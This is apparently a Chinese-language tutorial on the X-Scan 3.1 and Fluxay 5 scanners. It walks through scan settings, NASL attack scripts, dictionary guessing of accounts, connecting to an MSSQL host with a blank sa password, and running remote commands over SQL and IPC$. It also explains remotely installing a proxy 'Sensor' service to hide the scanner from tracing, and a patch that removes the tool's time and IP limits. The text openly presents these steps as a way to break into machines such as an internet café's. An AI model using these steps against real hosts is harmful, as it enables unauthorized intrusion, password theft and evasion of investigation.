

我们点击“扫描参数”，打开扫描参数设置的菜单，见图 3。在“基本设置”菜单中，我们在“指定 IP 范围”栏中输入要检测的目标主机的域名或 IP 地址，可以对单个目标进行检测，也可以对多个目标进行检测，例如输入“192.168.0.1-192.168.0.254”，这样，X-Scan 3.1 就会对整个网段的主机进行检测了。

在“高级设置”菜单中，我们通常需要设置的是“跳过没有响应的主机”或“无条件扫描”。如果选择“跳过没有响应的主机”，那么对于禁止 ping 或者是因为远程主机防火墙设置而致使没有响应的，X-Scan 3.1 就会自动地跳过去，检测下一台主机；如果选择“无条件扫描”的话，见图 4，X-Scan 3.1 将会使用一些复杂的技术来对目标进行详细的检测。虽然检测会更加准确，但同时扫描的时间却也非常长。因此，到底在速度及准确性上选择哪一个就看你自己了。我的做法通常是针对单个的目标主机时，选择“无条件扫描”方式；而如果扫描一批主机时，选择“跳过没有响应的主机”。





在“端口相关设置”中，见图 5，我们可以自由地定义需要检测的端口，当然你可以输入“1-65535”来扫描所有的端口，如果你的时间很充足的话。在“检测方式”中，我通常是选择“SYN”方式。

在“SNMP 相关设置”中，主要是针对 SNMP 信息的检测设置，图 6。



在“NETBIOS 相关设置”中，主要是针对 Windows 系统的 NETBIOS 信息的检测设置，包括的检测项目很多，我们可以根据需要来进行选择，图 7。



在“NASL 相关设置”中，有一些检测脚本对于远程主机是有破坏性的，也许会造成远程主机上的某些服务的异常中止，这样当然会很容易地暴露自己，因此你可以根据自己的需要来进行选择。见图 8。X-Scan 3.1 中默认使用的攻击脚本为“excellent.nsl”，我们可以点击右边的“选择脚本”，在“漏洞类别”中选择一些比较严重的安全漏洞，这样针对该漏洞的 Nessus 攻击脚本就会被选中，我们就可以相对快速地检测特定的安全漏洞。当然我们也可以全部选中，不过检测花费的时间会很长。针对于单个的测试目标的话，我们倒是可以全部选中这些攻击脚本；而如果我们是针对一批目标要检测的话，我还是建议选择特定的攻击脚本来进行扫描，图 9。



图 8



图 9



图 10



图 11



图 12

在“网络设置”菜单中，我们可以看到 X-Scan 3.1 自带的 WinPCap 2.3，而网络适配器使用默认的就可以了，见图 10。

“CGI 相关设置”同早期的 2.3 版本中的差不多，使用默认的“HEAD”就可以了，你也可以根据需要选择别的方式，见图 11。

“字典文件设置”中主要是 X-Scan 3.1 默认使用的一些用于猜解远程帐号所用的字典文件，这些字典文件使用的大多是一些系统默认帐号。如果我们感觉这些字典文件的成功率太低的话，也可以手工打开这些文件来进行修改。不过，字典文件越大，用于猜解的时间也会越长，见图 12。

设置好“扫描参数”后，我们打开“扫描模块”菜单，对于远程主机的检测主要有开放服务，也就是开放端口情况、FTP 的匿名登录、系统的弱口令、IIS 编码/解码漏洞、CGI 漏洞及 Nessus 攻击脚本等等。按照我们的需要来选择要检测的项目，或是全部的项目，见图 13。

点击“开始扫描”后，x-scan 3.1 就会对目标主机进行详细的检测了，在“普通信息”中我们会看到 x-scan 3.1 当前正在检测的项目，见图14。

如果 x-scan 3.1 检测到了安全漏洞，我们就会在“漏洞信息”中看到，这些检测到的安全漏洞信息也会显示在主窗口的左栏中，而如果在检测的过程中出现了一些错误的话，也会显示在“错误信息”中。

如果所有的项目都检测完成了，x-scan 3.1 会自动地弹出检测报告表，以让我们对目标进行详细的分析，见图15。

以上就是 x-scan 3.1 的简单使用。虽然 x-scan 3.1 是 x-scan 2.3 的升级版本，但 x-scan 3.1 也有一个不大不小的问题，就是只能在 Windows NT/2000/XP/2003 系统下使用，而不像 x-scan 2.3 还可以在 Windows 98/ME 系统下使用，这对于那些因为某些原因还不得不使用 Windows 98/ME 的朋友来说，实在是一种遗憾。

## 1.2 流光 Fluxay5

“流光”是国内最著名的一款综合网络安全检测（扫描）工具。在国内，不管你是专门从事网络安全工作的，还是业余的网络安全爱好者；也不管你是菜鸟还是高手，或许“流光”的作者小榕你可能不知道，但“流光”的大名却一定听说过。

对于真正的高手来讲，也许并不使用“流光”。不是说“流光”不好，恰恰相反，是因为“流光”太好了，只需要点点鼠标什么的，就可以轻松地实现扫描及入侵，黑掉对方的网吧只不过是小菜一碟。这对于那些只喜欢自己动手尝试的高手来讲，是不能接受的；但是对于刚刚接触网络安全的新手来讲，学会使用“流光”，就好比是站在了巨人的肩膀上，可以让他们事半功倍。

流光 5 是流光系列的最新版本，本来是准备于 2003 年六月推出的，但是因为某些原因，流光 5 的正式版本一直没有推出，我们在网上只能找到流光 5 的 BETA1 版本，虽然只是测试版本，但并不影响我们的使用。

流光 5 就和它的前期版本 4.7、4.71 一样，只能在 Windows NT/2000/XP/2003 下使用，并且这个流光 5 也有使用时间的限制，通过简单地将 Windows 的系统日期调整至 2002 年的方法已经不再适用了，因为流光 5 不单与我们本地电脑上的日期时间进行检验，还与网上的几个特定的服务器上的日期时间进行校验。如何解决这个问题呢？对于拨号或宽带上网的个人用户来讲，可以先不进行拨号，运行流光 5，流光 5 运行后就无法连接 Internet 来进行对日期时间的校验了；对于局域网中上网的用户来讲，可以先拔掉网线，然后运行流光 5，等流光 5 运行成功后，再插上网线就可以了。另外，流光 5 和流光 4.7、4.71 一样，也对国内的 IP 段进行了限制。

流光 5 的安装很简单，基本上是一路的 NEXT 就可以了，其安装密码为“www.cathacker.com”。安装好后，此时已经可以按照上边讲的方法来运行了。不过，可喜的是，我从网上找到了流光 5 的补丁程序，将 fluxay5beta1补丁.rar 解压后，把 fluxay5beta2.exe 文件复制到流光 5 刚才安装的目录下，通常为 \Program Files\Fluxay5Beta\ 目录，直接运行这个 fluxay5beta2.exe 就可以了，此时上边的时间及 IP 等限制就都会被去除了。启动后的主界面见图1。

界面的左上部为一些特定主机的选项，主要包括了 POP3、IMAP、FTP、HTTP、PROXY、FORM、MSSQL、SMTP、IPC$ 等九项，我想其中最常用的就是 FTP、MSSQL、IPC$ 这三个了。右上部为扫描的一些提示信息及扫描的状态。界面的下方为扫描的结果，分别为检测到的主机的一些信息，以及探测到的一些账号及密码信息。

下边让我们以 MSSQL 主机为例来看一下如何快速地探测这类特定的目标主机。

右击“MSSQL 主机”，在出现的小菜单中选择“编辑”再选择“添加”，见图2，出现“添加主机（MS SQL）”的菜单，我们在地址栏中输入想要探测的主机的 IP 地址就可以了，见图3。

添加好后，我们就会从主界面上看到，“MSSQL 主机”下方已经出现了我们刚才添加的那台需要扫描的主机了。右击那台主机，在出现的菜单中选择“编辑”再选择“从列表添加”，见图4，然后我们就可以到流光的安装目录下选择要使用的用户列表文件了，在这儿我使用的是 password 这个文件，当然我们也可以选择 Normal、Name、Words 等用户名文件，见图5。选择好用户列表文件后，我们要将所选择主机前边的小框中打上勾，要是没有就无法进行探测，见图6。

从界面右上方可以看出流光 5 的当前探测状态。

接下来我们点击上方的工具条中的“工具(T)”，选择“模式文件设定”中的“简单模式探测设置文件”，流光 5 就开始使用我们刚才选择的字典文件对目标主机进行探测了，见图7、图8。

另外，我们也可以通过选择最上方工具条中的“探测”下的“扫描 POP3/FTP/NT/SQL 主机”来选择特定的扫描主机；在“扫描主机类型”中比较常用的就是 NT/98、SQL 及 FTP 这三项了，见图9，输入我们想要扫描的开始 IP 地址及结束 IP 地址，“确定”后就可以了。

显示在界面的下方，扫描全部完成后，还会出现一个单独的扫描结果小窗口，以让我们更清楚地看到扫描结果，见图10，我们成功地扫描到了一个 sa 用户密码为空的 SQL 主机。

在流光 5 中也集成了 MSSQL 的连接工具，这使得我们在成功地探测出了 MSSQL 的用户名及密码后，不必要再使用专门的 SQL 连接程序就可以完成与目标 SQL 主机的连接了。选择最上方工具条中的“工具”中的“MSSQL 工具”→“SQL 远程命令”，出现“SQL 远程命令”菜单，我们输入主机的 IP 地址、用户名及密码，密码为空的话，当然就不输入密码了，然后点击“连接”就可以了，见图11、图12。

流光会出现一个类似于 CMD SHELL 的 SQL 远程命令窗口，如果连接成功的话，我们会从窗口中看到 **Connect to 211.*.*.194 MSSQL server success. Type Command at Prompt.** 的提示。在“SQLCMD>”的命令提示符后，我们就可以输入想要执行的命令了，见图13。

我们在扫描 NT/2000 系统的时候，经常会扫描到一些弱口令，或者是我们通过别的方法，掌握了远程 NT/2000 主机的一些后门账号，通常的做法是使用 2000 中的“net”命令来与目标系统建立一个合法的管道连接，或者是使用这些账号再结合 opentelnet 等工具，开启对方的 telnet 服务，来进行远程登录。不过，这一切在流光 5 中已经得到了简化，因为在流光 5 中也集成了 NT/2000 的远程连接工具，我们唯一要做的就是拥有对方的账号及密码，并且对方允许 IPC$ 的管道连接。

选择上方工具条中的“工具”下的“NT/IIS 工具”，选择“管道远程命令”，出现“NT 管道命令”的小菜单，这个和 SQL 的远程命令菜单几乎是一样的，我们输入远程 NT/2000 主机的 IP 地址、用户名及密码后，点击“连接”后就可以了，如果一切顺利的话，我们也会看到一个连接成功的提示，并且可以在“NTCMD>”提示符后执行命令了，见图14、图15、图16。要注意的是，有时就算是我们真的拥有了远程主机的 administrator 权限的后门账号，也会连接不成功，这是因为在远程 NT/2000 系统中已经禁止或删除了 IPC$ 的管道连接，这也会造成有时我们给远程主机安装“Fluxay Sensor”服务，或远程网络嗅探时不成功。

依次选择菜单栏中的“工具”→“Fluxay Sensor 工具”→“安装 Fluxay Sensor”，见图17，出现如图18的 Fluxay Sensor 的安装界面，我们输入主机的 IP 地址、系统账号、系统密码，在下边有“服务名称”、“显示名称”、“服务描述”、“控制进程”、“扫描进程”、“注释”等项目，我们可以自己定义。在下边的“用户名”及“控制密码”为我们以后修改 Sensor 要用的账号及密码，“控制端口”及“服务端口”我们可以随意填写，但要注意不能一样。也最好不要选择 21、22、23、25、80 等这样的端口，以免影响系统其他的服务，填好后点击“安装”，流光就会自动地为远程主机安装 Sensor 服务了，见图18。

Sensor 服务是流光的一个非常实用的功能，它实现了远程代理扫描，可以很好地隐藏真正的扫描者，从而给反向的追踪带来很大的麻烦，也正因为如此，这个功能很受入侵者的喜欢。下边让我们来看一下如何给远程主机安装 Sensor 服务。

接下来让我们来看一下流光 5 的高级扫描工具，我们可以选择菜单栏中的“探测”→“高级扫描工具”；见图19，出现如图20的“高级扫描”设置菜单。在“高级扫描设置”中的选项主要有“TELNET”、“CGI”、“CGI Rules”、“SQL”、“IPC”、“IIS”、“FINGER”、“RPC”、“MISC”、“PLUGINS”、“选项”、“设置”、“PORTS”、“POP3”、“FTP”、“SMTP”、“IMAP”等十七个标签项，流光的默认情况下是全部选择的，限于篇幅，我们不能将这十七个选项来详细地一一介绍，只好介绍其中常用到的几个了。

